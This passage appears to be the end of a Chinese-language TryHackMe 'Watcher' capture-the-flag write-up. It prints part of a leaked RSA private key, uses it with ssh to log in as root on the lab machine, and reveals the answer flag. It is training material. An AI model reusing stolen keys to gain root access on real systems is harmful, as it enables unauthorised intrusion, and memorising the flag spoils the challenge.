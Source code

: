 vp4+Y8J0IB/tGmCf7IPMeiX80YJW7Ltozr7+sfbAQZ1Ta2o1hCalAQyIk9p+EXpI
UbBVnyUC1XcvRfQvFJyzgccwExEr6glJKOj64bMCgYEAlxmx/jxKZLTWzxxb9V4D
SPs+NyJeJMqMHVL4VTGh2vnFuTuq2cIC4m53zn+xJ7ezpb1rA85JtD2gnj6nSr9Q
A/HbjJuZKwi8uebquizot6uFBzpouPSuUzA8s8xHVI6edV1HC8ip4JmtNPAWHkLZ
gLLVOk0gz7dvC3hGc12BrqcCgYAhFji34iLCi3Nc1lsvL4jvSWnLeMXnQbu6P+Bd
bKiPwtIG1Zq8Q4Rm6qqC9cno8NbBAtiD6/TCX1kz6iPq8v6PQEb2giijeYSJBYUO
kJEpEZMF308Vn6N6/Q8DYavJVc+tm4mWcN2mYBzUGQHmb5iJjkLE2f/TwYTg2DB0
mEGDGwKBgQCh+UpmTTRx4KKNy6wJkwGv2uRdj9rta2X5pzTq2nEApke2UYlP5OLh
/6KHTLRhcp9FmF9iKWDtEMSQ8DCan5ZMJ7OIYp2RZ1RzC9Dug3qkttkOKAbccKn5
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRsM1bOEqjFdZgv6SA==
-----END RSA PRIVATE KEY-----

```

把上面文字保存到攻击机，用ssh连接以后拿到flag7
```
┌──(root💀kali)-[~/tryhackme/watcher]
└─# ssh -i id_rsa 10.10.208.80        
The authenticity of host '10.10.208.80 (10.10.208.80)' can't be established.
ECDSA key fingerprint is SHA256:vBeZlR+cak5J2WqxAI9JKbnLjRAbdRGnKxuFjLqsfz4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.208.80' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct 22 11:14:46 UTC 2021

  System load:  0.0                Processes:             156
  Usage of /:   23.3% of 18.57GB   Users logged in:       0
  Memory usage: 46%                IP address for eth0:   10.10.208.80
  Swap usage:   0%                 IP address for lxdbr0: 10.14.179.1


33 packages can be updated.
0 updates are security updates.


Last login: Thu Dec  3 03:25:38 2020
root@watcher:~# cd /root
root@watcher:~# ls
flag_7.txt
root@watcher:~# cat flag_7.txt
FLAG{who_watches_the_watchers}

```